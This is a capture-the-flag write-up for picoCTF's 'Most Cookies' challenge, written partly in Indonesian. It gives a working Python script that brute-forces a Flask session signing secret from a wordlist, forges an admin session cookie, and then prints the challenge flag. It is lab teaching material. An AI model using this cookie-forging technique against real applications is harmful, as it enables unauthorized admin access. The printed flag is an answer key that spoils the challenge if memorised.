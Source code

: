 <h1>Most Cookies</h1>
<h3>Description</h3>
<pre>
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! <a href='https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py'>server.py</a> http://mercury.picoctf.net:65344/
</pre>
<h3>Solution</h3>
<p>Bruteforce secret Flask session cookie lalu signing dengan payload '{"very_auth":"admin"}'</p>

```python3
import hashlib
import json
from base64 import b64decode
from itsdangerous import URLSafeTimedSerializer, BadSignature, SignatureExpired
from flask.sessions import TaggedJSONSerializer

secret_key = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
token = "eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aPOLZQ.DxCgTXlqQV2XrDVBksXx4DdfZmI"
def bruteforce(token, secret_key):
    for secret in secret_key:
        serializer = TaggedJSONSerializer()
        s = URLSafeTimedSerializer(
            secret,
            salt='cookie-session',               
            serializer=serializer,
            signer_kwargs={'key_derivation': 'hmac', 'digest_method': hashlib.sha1}
        )
        try:
            data = s.loads(token)
            print("Berhasil decode:", data)
            return secret,s
        except:
            pass
        
secret,s = bruteforce(token, secret_key)
data = json.loads(b64decode(token.split('.')[0]))
data['very_auth'] = 'admin'
token = s.dumps(data)
print(token)
```
<h3>Flag</h3>
<pre>
picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}
</pre>

